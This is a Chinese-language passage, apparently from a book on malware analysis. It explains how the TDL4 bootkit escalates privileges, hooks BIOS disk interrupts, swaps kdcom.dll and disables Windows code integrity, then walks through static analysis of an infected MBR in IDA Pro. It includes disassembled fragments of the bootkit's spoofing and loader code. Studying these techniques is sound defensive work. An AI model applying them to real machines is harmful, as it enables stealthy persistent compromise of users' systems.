获得写访问权限需要管理员权限，TDL4 利用 Windows 任务调度器服务（首次在 Stuxnet 中出现）的 MS10-092 漏洞提升权限。该漏洞允许攻击者对特定任务进行未授权的特权提升。具体做法是让 TDL4 在任务调度器中注册一个任务，并修改任务的 XML 文件使其以 Local System 账户运行，从而获得管理员权限，并保持文件校验和不变，骗过任务调度器。

通过此方式，恶意软件能够绕过文件系统层面的防御工具，因为 I/O 请求报文（IRP）直接发送到磁盘类驱动程序处理程序。

安装完成后，TDL4 通过调用 native API `NtRaiseHardError` 强制系统重启（见 `第 7 章`）。

```
NTSYSAPI
NTSTATUS
NTAPI
NtRaiseHardError(
    IN NTSTATUS ErrorStatus,
    IN ULONG NumberOfParameters,
    IN PUNICODE_STRING UnicodeStringParameterMask OPTIONAL,
    IN PVOID *Parameters,
    ➊ IN HARDERROR_RESPONSE_OPTION ResponseOption,
    OUT PHARDERROR_RESPONSE Response
);
```

*Listing 7-1: NtRaiseHardError 例程原型*

代码将第五个参数设为 `OptionShutdownSystem` ➊，使系统进入 **蓝屏死机（Blue Screen of Death, BSoD）**。BSoD 会自动重启系统，并在下一次启动时加载根套件模块，而无需向用户提示（系统看起来仅仅崩溃）。

#### `Bypassing Security in the Boot Process of a TDL4-Infected System`

Figure 7-1 展示了 TDL4 感染机器的启动过程。下图是对根套件为规避代码完整性检查并加载其组件的高层步骤的概览。



*Figure 7-1: TDL4 bootkit 启动过程流程图*


# MBR 引导套件分析

## BSoD 触发后的引导流程

在 BSoD 触发后，系统重启。BIOS 从被篡改的 MBR 读取并执行，加载引导程序根套件的第一部分（➊ 在 Figure 7-1）。随后，被篡改的 MBR 在磁盘末尾找到根套件的文件系统并加载执行 `ldr16` 模块。`ldr16` 负责 hook BIOS 的 13h 磁盘服务中断处理程序（➋ 与 ➌ 在 Figure 7-1），恢复原始 MBR，并将执行权交回。这样系统仍然正常启动，但此时已通过劫持 13h 中断实现对磁盘 I/O 的控制。原始 MBR 保存在隐藏文件系统的 `mbr` 模块中（见 表 7-1）。

BIOS 中断 13h 服务提供了在系统加载前进行磁盘 I/O 的接口，这在启动阶段至关重要，因为此时存储驱动程序尚未加载，标准启动组件（`bootmgr`、`winload.exe`、`winresume.exe`）依赖 13h 服务从磁盘读取系统文件。

一旦控制转移到原始 MBR 后，引导过程按常规继续，加载 VBR 和 `bootmgr`（➍ 和 ➎ 在 Figure 7-1），但驻留在内存中的引导套件（bootkit）现在控制所有与硬盘的读写操作。

## `ldr16` 的核心功能

`ldr16` 最有趣的部分在于实现针对 13h 磁盘服务中断处理程序钩子的例程。引导时从硬盘读取数据的代码依赖于 BIOS 13h 中断处理程序，而该中断处理程序现在被引导套件拦截，这意味着引导套件可以 *伪造* 引导过程中的硬盘读取数据。引导套件利用此能力，将 `kdcom.dll` 库替换为 `ldr32` 或 `ldr64` ➑（取决于操作系统），从隐藏文件系统中加载，并在读取操作的内存缓冲区中替换其内容。如我们稍后将看到，将 `kdcom.dll` 替换为恶意 *动态链接库 (DLL)* 使引导套件能够加载其自身驱动程序，并同时禁用内核模式调试设施。

## RACE TO THE BOTTOM

在劫持 BIOS 磁盘中断处理程序的同时，TDL4 模仿了根套件（rootkits）的策略，倾向于向服务接口栈的更低层迁移。一般规则是：越深入的入侵者越有利。因此，某些防护软件偶尔会在争夺操作系统栈的低层控制权时与其他防护软件展开竞争！这种对 Windows 系统低层进行劫持的竞赛，使用的技术与根套件手段无异，导致系统稳定性出现问题。相关问题的深入分析在 *Uninformed* 的两篇文章中发表。^(1)

1. skape, “What Were They Thinking? Annoyances Caused by Unsafe Assumptions,” *Uninformed* 1 (May 2005), [`www.uninformed.org/?v=1&a=5&t=pdf`](http://www.uninformed.org/?v=1&a=5&t=pdf); Skywing, “What Were They Thinking? Anti-Virus Software Gone Wrong,” *Uninformed* 4 (June 2006), [`www.uninformed.org/?v=4&a=4&t=pdf`](http://www.uninformed.org/?v=4&a=4&t=pdf)。

## 恶意 `kdcom.dll` 的导出表

为了符合 Windows 内核与串行调试器之间通信接口的要求，`ldr32` 和 `ldr64`（取决于操作系统）模块导出与原始 `kdcom.dll` 库相同的符号（如 Listing 7-2 所示）。

| Name | Address | Ordinal |
| :--- | :--- | :--- |
| KdD0Transition | 000007FF70451014 | 1 |
| KdD3Transition | 000007FF70451014 | 2 |
| KdDebuggerInitialize0 | 000007FF70451020 | 3 |
| KdDebuggerInitialize1 | 000007FF70451104 | 4 |
| KdReceivePacket | 000007FF70451228 | 5 |
| KdReserved0 | 000007FF70451008 | 6 |
| KdRestore | 000007FF70451158 | 7 |
| KdSave | 000007FF70451144 | 8 |
| KdSendPacket | 000007FF70451608 | 9 |

*Listing 7-2: Export address table of `ldr32`/`ldr64`*

恶意 `kdcom.dll` 版本导出的大多数函数仅返回 0，唯一的例外是 `KdDebuggerInitialize1` 函数，该函数在 Windows 内核映像初始化时（➒ 在 Figure 7-1）由内核调用。该函数包含代码，用于加载引导套件的驱动程序。它通过 `PsSetCreateThreadNotifyRoutine` 注册回调 `CreateThreadNotifyRoutine`，在线程创建或销毁时触发；回调被触发后，它创建恶意 `DRIVER_OBJECT` 以钩住系统事件，并等待硬盘设备的驱动堆栈在引导过程中构建完成。

一旦磁盘类驱动程序加载完成，引导套件即可访问硬盘上的数据，因此它从替换 `kdcom.dll` 的 `drv32` 或 `drv64` 模块（该模块从隐藏文件系统中加载）中加载其内核驱动程序，并调用该驱动的入口函数。

## 禁用代码完整性检查

为了在 Windows Vista 及更高版本上将原始 `kdcom.dll` 替换为恶意 DLL，恶意软件需要禁用内核模式代码完整性检查，如先前所述（为规避检测，它仅临时禁用检查）。如果不禁用检查，`winload.exe` 将报错并拒绝继续引导过程。

引导套件通过指示 `winload.exe` 在预安装模式下加载内核来关闭代码完整性检查（参见“The Legacy Code Integrity Weakness”在 page 74），该模式下检查未启用。`winload.exe` 通过在 `bootmgr` 从硬盘读取 BCD 时，用相同的方法（即 TDL4 用于伪造 `kdcom.dll` 的方式）将 BCD 中的 `BcdLibraryBoolean_EmsEnabled` 元素（编码为 16000020）替换为 `BcdOSLoaderBoolean_WinPEMode`（编码为 26000022；见 ➏ 在 Figure 7-1）。（`BcdLibraryBoolean_EmsEnabled` 是可继承的对象，指示是否启用全局紧急管理服务重定向，默认设置为 TRUE。）Listing 7-3 展示了 `ldr16` 中实现的伪造 `BcdLibraryBoolean_EmsEnabled` 选项的汇编代码 ➊ ➋ ➌。

```
seg000:02E4   cmp     dword ptr es:[bx], '0061'       ; spoofing BcdLibraryBoolean_EmsEnabled
seg000:02EC   jnz     short loc_30A                   ; spoofing BcdLibraryBoolean_EmsEnabled
seg000:02EE   cmp     dword ptr es:[bx+4], '0200'     ; spoofing BcdLibraryBoolean_EmsEnabled
seg000:02F7   jnz     short loc_30A                   ; spoofing BcdLibraryBoolean_EmsEnabled
seg000:02F9 ➊ mov     dword ptr es:[bx], '0062'       ; spoofing BcdLibraryBoolean_EmsEnabled
seg000:0301 ➋ mov     dword ptr es:[bx+4], '2200'     ; spoofing BcdLibraryBoolean_EmsEnabled
seg000:030A   cmp     dword ptr es:[bx], 1666Ch       ; spoofing BcdLibraryBoolean_EmsEnabled
seg000:0312   jnz     short loc_328                   ; spoofing BcdLibraryBoolean_EmsEnabled
seg000:0314   cmp     dword ptr es:[bx+8], '0061'     ; spoofing BcdLibraryBoolean_EmsEnabled
seg000:031D   jnz     short loc_328                   ; spoofing BcdLibraryBoolean_EmsEnabled
seg000:031F ➌ mov     dword ptr es:[bx+8], '0062'     ; spoofing BcdLibraryBoolean_EmsEnabled
seg000:0328   cmp     dword ptr es:[bx], 'NIM/'       ; spoofing /MININT
seg000:0330   jnz     short loc_33A                   ; spoofing /MININT
seg000:0332 ➍ mov     dword ptr es:[bx], 'M/NI'       ; spoofing /MININT
```

*Listing 7-3: Part of the `ldr16` code responsible for spoofing the BcdLibraryBoolean_EmsEnabled and /MININT options*

随后，引导套件仅在必要时打开预安装模式，以加载恶意版本的 `kdcom.dll`。加载完成后，恶意软件会关闭预安装模式，假装它从未启用，以消除系统中的任何痕迹。攻击者只能在预安装模式处于激活状态时禁用它——通过在读取 `winload.exe` 映像时篡改其 `/MININT` 字符串选项，如 ➍（参见 Figure 7-1 中的 ➐）所示。引导时，内核从 `winload.exe` 获取一系列参数，用于启用特定选项并指定启动环境的属性，例如系统处理器数量、是否进入预安装模式以及是否在引导时显示进度指示器。由字符串字面量描述的参数在 `winload.exe` 中以字符串形式存储。

---

# MBR 静态分析实战

## 加载并解密 MBR

在以下章节中，你将加载 MBR 到 IDA Pro 并分析其入口点。随后，你需要解密代码并观察 MBR 如何管理内存。

### 加载 MBR 到 IDA Pro

静态分析 MBR 的第一步是将其加载到 IDA 中。由于 MBR 不是常规可执行文件，没有专用加载器，需要将其作为二进制模块加载。IDA Pro 会像 BIOS 一样，将 MBR 以单一连续内存段的方式加载，无需额外处理。你只需提供该段的起始内存地址。

打开二进制文件（通过 IDA Pro），首次加载时会弹出一个提供多种选项的对话框，如 Figure 8-1 所示。



*Figure 8-1: IDA Pro 加载 MBR 时显示的对话框*

大多数参数可以使用默认值，但你必须在 **Loading offset**（加载偏移）字段 ➊ 中输入一个值，指定模块在内存中的加载位置。该值始终为 `0x7C00`——BIOS 在引导时加载 MBR 的固定地址。输入该偏移后，点击 **OK**。IDA Pro 加载模块后，会提示你选择以 16 位还是 32 位模式进行反汇编，如 Figure 8-2 所示。



*Figure 8-2: IDA Pro 询问选择哪种反汇编模式*

本例中选择 **No**（不选），让 IDA 按 16 位实模式反汇编 MBR，这正是 CPU 在启动阶段实际解码的方式。

IDA 将反汇编结果保存在后缀为 *idb* 的数据库文件中。我们称其为“数据库”，因为它记录了你通过 GUI 操作或 IDA 脚本提供的所有代码注释。数据库是 IDA 脚本函数的隐式参数，代表当前对二进制的理解状态。

即使不了解数据库内部机制，也无需担心；IDA 的界面设计让你无需直接操作数据库。但了解 IDA 如何表示其学习到的代码信息，有助于更好地使用工具。

### 分析 MBR 入口点

当 BIOS 加载已被引导入侵的 MBR 时，它会从 MBR 的第一字节开始执行。我们在 IDA 中将加载地址设为 `0:7C00h`，即 BIOS 加载 MBR 的位置。Listing 8-1 展示了加载后 MBR 前几个字节。


# 第 8 章：MBR 和 VBR 分析技术

## 解密 MBR 代码

以下是加密 MBR 代码的片段：

```
seg000:7C00 ; Segment type: Pure code  
seg000:7C00 seg000          segment byte public 'CODE' use16  
seg000:7C00                 assume cs:seg000  
seg000:7C00                 ;org 7C00h  
```

### 解密脚本

```python
# beginning of the encrypted code and its size in memory
start_ea = 0x7C19
encr_size = 0xCF

for ix in range(encr_size):
    byte_to_decr = idaapi.get_byte(start_ea + ix)
    to_rotate = (0xCF - ix) % 8
    byte_decr = (byte_to_decr >> to_rotate) | (byte_to_decr << (8 - to_rotate))
    idaapi.patch_byte(start_ea + ix, byte_decr)
```

*Listing 8-2: 用于解密 MBR 代码的 Python 脚本*

首先，我们导入 `idaapi` 包 ➊，它包含 IDA API 库。然后我们循环遍历并解密加密字节 ➋。要从反汇编段获取一个字节，我们使用 `get_byte` API ➌，它接受要读取的字节地址作为唯一参数。解密后，我们使用 `patch_byte` API ➍ 将字节写回反汇编区域，该 API 接受要修改的字节地址和要写入的值。你可以通过从 IDA 菜单选择 **File**▸**Script** 或按 `ALT-F7` 来执行该脚本。

> **NOTE**
>
> *此脚本不会修改 MBR 的实际镜像，而是修改其在 IDA 中的表示——即 IDA 对加载代码准备运行时外观的认知。在对反汇编代码进行任何修改之前，你应该备份当前版本的 IDA 数据库。这样，如果修改 MBR 代码的脚本包含 Bug 并破坏了代码，你将能够轻松恢复其最新版本。*

## 实模式下的内存管理分析

解密代码后，让我们继续分析它。如果你浏览解密后的代码，会发现 Listing 8-3 所示的指令。这些指令通过存储 MBR 输入参数和内存分配来初始化恶意代码。

```
seg000:7C19                 ➊ mov     ds:drive_no, dl  
seg000:7C1D                 ➋ sub     word ptr ds:413h, 10h  
seg000:7C22                 mov     ax, ds:413h  
seg000:7C25                 shl     ax, 6  
seg000:7C28                 ➌ mov     ds:buffer_segm, ax
```

*Listing 8-3: 预启动环境中的内存分配*

将 `dl` 寄存器内容存储到内存的汇编指令位于 `ds` 段的偏移处 ➊。根据我们分析此类代码的经验，我们可以推测 `dl` 寄存器包含正在执行 MBR 的硬盘编号；将此偏移标注为名为 `drive_no` 的变量。IDA Pro 在数据库中记录此标注并在列表中显示。执行 I/O 操作时，你可以使用此整数索引来区分系统可用的不同磁盘。你将在下一节的 BIOS 磁盘服务中使用此变量。

同样，Listing 8-3 显示了代码分配缓冲区的偏移处的 `buffer_segm` 标注 ➌。IDA Pro 会将这些标注传播到使用相同变量的其他代码中。

在 ➋ 处，我们看到内存分配。在预启动环境中，没有现代操作系统意义上的内存管理器（如支持 `malloc()` 调用的 OS 逻辑）。相反，BIOS 在位于地址 `0:413h` 的一个*字*（x86 架构中的 16 位值）中维护可用内存的 KB 数。为了分配 *X* KB 内存，我们从存储在 `0:413h` 处的字中的可用内存总大小中减去 *X*，如图 8-3 所示。



*Figure 8-3: 预启动环境中的内存管理*

在 Listing 8-3 中，代码通过从可用总量中减去 `10h` 来分配 10KB 的缓冲区。实际地址存储在变量 `buffer_segm` ➌ 中。MBR 随后使用分配的缓冲区来存储从硬盘读取的数据。

### BIOS 磁盘服务分析

预启动环境的另一个独特方面是 BIOS 磁盘服务，这是一个用于与硬盘通信的 API。在引导程序分析背景下，此 API 特别有趣，原因有二。首先，引导程序使用它从硬盘读取数据，因此熟悉 API 最常用的命令对于理解引导程序代码非常重要。此外，此 API 本身就是引导程序的常见攻击目标。在最常见的场景中，引导程序挂钩该 API，以修补引导过程中其他代码从硬盘读取的合法模块。

BIOS 磁盘服务可通过 `INT 13h` 指令访问。为了执行 I/O 操作，软件通过处理器寄存器传递 I/O 参数并执行 `INT 13h` 指令，该指令将控制权转移给相应的处理程序。I/O 操作代码或*标识符*通过 `ah` 寄存器传递——即 `ax` 寄存器的高位部分。`dl` 寄存器用于传递相关磁盘的索引。处理器的进位标志（CF）用于指示服务执行期间是否发生错误：如果 CF 设置为 1，则发生错误，详细错误码返回在 `ah` 寄存器中。这种向函数传递参数的 BIOS 惯例早于现代 OS 系统调用惯例；如果它看起来很复杂，请记住这是统一系统调用接口概念的起源。

`INT 13h` 中断是 BIOS 磁盘服务的入口点，它允许预启动环境中的软件对磁盘设备（如硬盘、软盘和 CD-ROM）执行基本 I/O 操作，如表 8-1 所示。

**Table 8-1: INT 13h 命令**

| **操作码** | **操作描述** |
| --- | --- |
| `2h` | 将扇区读入内存 |
| `3h` | 写磁盘扇区 |
| `8h` | 获取驱动器参数 |
| `41h` | 扩展安装检查 |
| `42h` | 扩展读取 |
| `43h` | 扩展写入 |
| `48h` | 扩展获取驱动器参数 |

表 8-1 中的操作分为两组：第一组（代码 `41h`、`42h`、`43h` 和 `48h`）包含*扩展操作*，第二组（代码 `2h`、`3h` 和 `8h`）包含*传统操作*。

两组的唯一区别在于扩展操作可以使用基于*逻辑块寻址（LBA）* 的寻址方案，而传统操作仅依赖传统的基于*柱面-磁头-扇区（CHS）* 的寻址方案。在基于 LBA 的方案中，扇区在磁盘上线性枚举，从索引 0 开始；而在基于 CHS 的方案中，每个扇区使用元组 `(c,h,s)` 寻址，其中 `c` 是柱面号，`h` 是磁头号，`s` 是扇区号。尽管引导程序可能使用任一组，但几乎所有现代硬件都支持基于 LBA 的寻址方案。

#### 获取驱动器参数以定位隐藏存储

继续查看 10KB 内存分配后的 MBR 代码，你应该会看到 `INT 13h` 指令的执行，如 Listing 8-4 所示。

```
seg000:7C2B                 ➊ mov     ah, 48h  
seg000:7C2D                 ➋ mov     si, 7CF9h  
seg000:7C30                 mov     ds:drive_param.bResultSize, 1Eh  
seg000:7C36                 int     13h         ; DISK - IBM/MS Extension  
                                                ; GET DRIVE PARAMETERS  
                                                ; (DL - drive, DS:SI - buffer)
```

*Listing 8-4: 通过 BIOS 磁盘服务获取驱动器参数*

小型的 MBR（512 字节）限制了可以在其中实现的代码功能。因此，引导程序加载额外的代码以执行，称为 `malicious boot loader`，该代码被放置在硬盘末尾的隐藏存储区中。为了获取硬盘隐藏存储区的坐标，MBR 代码使用扩展的“获取驱动器参数”操作（表 8-1 中的操作码 `48h`），该操作返回硬盘的大小和几何结构信息。这些信息使引导程序能够计算隐藏代码在硬盘上的偏移地址。

在 Listing 8-4 中，你可以看到 IDA Pro 为指令 `INT 13h` 自动生成的注释。在代码分析过程中，IDA Pro 识别出传递给 BIOS 磁盘服务调用的参数，并生成包含所请求磁盘 I/O 操作名称以及用于向 BIOS 处理程序传递参数的寄存器名称的注释。此 MBR 代码执行 `INT 13h` 并使用参数 `48h` ➊。执行后，该例程填充一个名为 `EXTENDED_GET_PARAMS` 的特殊结构，该结构提供驱动器参数。该结构的地址存储在 `si` 寄存器 ➋ 中。

##### 检查 EXTENDED_GET_PARAMS

`EXTENDED_GET_PARAMS` 结构在 Listing 8-5 中给出。

```c
typedef struct _EXTENDED_GET_PARAMS {  
    WORD  bResultSize;          // 结果大小  
    WORD  InfoFlags;            // 信息标志  
    DWORD CylNumber;            // 驱动器上的物理柱面数  
    DWORD HeadNumber;           // 驱动器上的物理磁头数  
    DWORD SectorsPerTrack;      // 每磁道的扇区数  
    QWORD TotalSectors;         // 驱动器上的总扇区数 ➊  
    WORD  BytesPerSector;       // 每扇区的字节数 ➋  
} EXTENDED_GET_PARAMS, *PEXTENDED_GET_PARAMS;
```

*Listing 8-5: EXTENDED_GET_PARAMS 结构布局*

引导程序实际关注返回结构中的两个字段：硬盘的总扇区数 ➊ 和每扇区的字节数 ➋。引导程序通过将这两个值相乘计算硬盘的总字节大小，然后使用该结果定位硬盘末尾的隐藏存储区。

#### 读取恶意引导加载程序

一旦引导程序获得硬盘参数并计算出隐藏存储区的偏移，引导程序的 MBR 代码便使用 BIOS 磁盘服务的扩展读取操作读取这些隐藏数据。该数据是下一阶段的恶意引导加载程序，用于绕过操作系统安全检查并加载恶意内核模式驱动程序。Listing 8-6 展示了将其读取到内存的代码。

```
seg000:7C4C read_loop:                              ; CODE XREF: seg000:7C5Dj  
seg000:7C4C                 ➊ call    read_sector  
seg000:7C4F                 mov     si, 7D1Dh  
seg000:7C52                 mov     cx, ds:word_7D1B  
seg000:7C56                 rep movsb  
seg000:7C58                 mov     ax, ds:word_7D19  
seg000:7C5B                 test    ax, ax  
seg000:7C5D                 jnz     short read_loop  
seg000:7C5F                 popa  
seg000:7C60                 ➋ jmp     far boot_loader
```

*Listing 8-6: 从磁盘加载额外恶意引导加载程序的代码*

在 `read_loop` 中，代码通过调用 `read_sector` 例程（➊）反复从硬盘读取扇区，并将其存储在先前分配的内存缓冲区中。随后，代码通过执行 `jmp far` 指令 ➋ 将控制转移到该恶意引导加载程序。

查看 `read_sector` 例程的代码，在 Listing 8-7 可以看到使用 `INT 13h` 并带参数 `42h`，对应扩展读取操作。

```
seg000:7C65 read_sector       proc near  
seg000:7C65                 pusha  
seg000:7C66                 ➊ mov     ds:disk_address_packet.PacketSize, 10h  
seg000:7C6B                 ➋ mov     byte ptr ds:disk_address_packet.SectorsToTransfer, 1  
seg000:7C70                 push    cs  
seg000:7C71                 pop     word ptr ds:disk_address_packet.TargetBuffer+2  
seg000:7C75                 ➌ mov     word ptr ds:disk_address_packet.TargetBuffer, 7D17h  
seg000:7C7B                 push    large [dword ptr ds:drive_param.TotalSectors_l]  
seg000:7C80                 ➍ pop     large [ds:disk_address_packet.StartLBA_l]  
seg000:7C85                 push    large [dword ptr ds:drive_param.TotalSectors_h]  
seg000:7C8A                 ➎ pop     large [ds:disk_address_packet.StartLBA_h]  
seg000:7C8F                 inc     eax  
seg000:7C91                 sub     ds:disk_address_packet.StartLBA_l, eax  
seg000:7C96                 sbb     ds:disk_address_packet.StartLBA_h, 0  
seg000:7C9C                 mov     ah, 42h  
seg000:7CA5                 ➐ int     13h               ; DISK - IBM/MS Extension  
                                                        ; EXTENDED READ  
                                                        ; (DL - drive, DS:SI - disk address packet)  
seg000:7CA7                 popa  
seg000:7CA8                 retn  
seg000:7CA8 read_sector       endp
```

*Listing 8-7: 从磁盘读取扇区的代码*

在执行 `INT 13h` 之前，引导程序代码初始化 `DISK_ADDRESS_PACKET` 结构，包括结构大小 ➊、要传输的扇区数 ➋、存储结果的缓冲区地址 ➌，以及要读取的扇区地址 ➍ ➎。该结构的地址通过 `ds` 和 `si` 寄存器 ➏ 传递给 `INT 13h` 处理程序。注意手动标注结构的偏移；IDA 自动捕获这些偏移并向上传播。BIOS 磁盘服务使用 `DISK_ADDRESS_PACKET` 来唯一标识要从硬盘读取的扇区。`DISK_ADDRESS_PACKET` 完整结构布局（带注释）在 Listing 8-8 中给出。

```c
typedef struct _DISK_ADDRESS_PACKET {  
    BYTE  PacketSize;               // 结构大小  
    BYTE  Reserved;  
    WORD  SectorsToTransfer;        // 要读取/写入的扇区数  
    DWORD TargetBuffer;             // 数据缓冲区的段:偏移  
    QWORD StartLBA;                 // 起始 LBA 地址  
} DISK_ADDRESS_PACKET, *PDISK_ADDRESS_PACKET;
```

*Listing 8-8: DISK_ADDRESS_PACKET 结构布局*

读取引导加载程序到内存缓冲区后，引导程序执行它。

此时，我们已完成对 MBR 代码的分析，接下来将 dissect 另一个 MBR 的关键部分：分区表。你可以在 *[`nostarch.com/rootkits/`](https://nostarch.com/rootkits/)* 下载完整的已反汇编并注释的恶意 MBR 版本。

### 分析已感染 MBR 的分区表

MBR 分区表是引导程序的常见目标，因为它包含的数据——尽管有限——在引导过程的逻辑中扮演着关键角色。如第 5 章 所述，分区表位于 MBR 的偏移 `0x1BE` 处，由四个条目组成，每个条目大小为 `0x10` 字节。它列出了硬盘上可用的分区，描述它们的类型和位置，并指定 MBR 代码在完成后应将控制权转移到的位置。通常，合法的 MBR 代码的唯一目的就是扫描该表以查找*活动*分区——即标记为相应位标志位且包含 VBR 的分区——并加载它。你可以通过仅修改表中的信息，而不修改 MBR 代码本身，在系统启动的最早阶段拦截这条执行流；Olmasco 引导程序（我们将在 第 10 章 讨论）正是采用了这种方法。

这说明了引导程序和根程序设计中的一个重要原则：如果你能够足够隐蔽地操纵某些数据来弯曲控制流，那么这种方式优于直接修补代码。这节省了恶意程序员对新代码进行测试的努力——代码复用促进可靠性！

像 MBR 或 VBR 这样的复杂数据结构为攻击者提供了大量将其视为字节码、将消费这些数据的原生代码视为虚拟机的机会，而该虚拟机通过输入数据进行编程。语言安全（LangSec，[`langsec.org/`](http://langsec.org/)）方法解释了这种情况的原因。

能够阅读并理解 MBR 的分区表对于发现这种早期引导程序拦截至关重要。请查看图 8-4 中的分区表，每条 16/`10h` 字节的行都是分区表项。



*Figure 8-4: MBR 分区表*

如图所示，表中有两个条目——即前两行——这意味着磁盘上只有两个分区。第一个分区条目起始地址为 `0x7DBE`；其第一个字节 ➊ 表明该分区为活动分区，因此 MBR 代码应加载并执行其 VBR，即该分区的第一个扇区。分区表条目中偏移 `0x7DC2` ➋ 处的字节描述了分区的类型——即操作系统、引导加载程序或其他低级磁盘访问代码应期望在此处的文件系统类型。在此例中，`0x07` 对应微软的 NTFS（更多信息请参阅“Windows 启动过程”在第 60 页）。

随后，分区表条目中位于 `0x7DC5` ➌ 的 DWORD 指示该分区从硬盘起始处的 `0x800` 偏移处开始；该偏移以扇区为单位计数。条目最后的 DWORD ➍ 指示分区的大小（以扇区为单位），为 `0x32000`。表 8-2 详细列出了图 8-4 中的示例数据。在“起始偏移”和“分区大小”列中，实际值以扇区给出，括号内为字节数。

**Table 8-2: MBR 分区表内容**

| **分区索引** | **是否活动** | **类型** | **起始偏移，扇区（字节）** | **分区大小，扇区（字节）** |
| --- | --- | --- | --- | --- |
| 0 | True | NTFS (`0x07`) | `0x800` (`0x100000`) | `0x32000` (`0x6400000`) |
| 1 | False | NTFS (`0x07`) | `0x32800` (`0x6500000`) | `0x4FCD000` (`0x9F9A00000`) |
| 2 | N/A | N/A | N/A | N/A |
| 3 | N/A | N/A | N/A | N/A |

重构后的分区表指示在分析引导序列时应继续查找的位置。具体而言，它告诉你 VBR 的存储位置。主要分区条目中的“起始偏移”列存储了 VBR 的坐标。在此例中，VBR 位于硬盘起始处的偏移 `0x100000` 字节处，这就是你需要继续分析的地方。

## VBR 分析技术

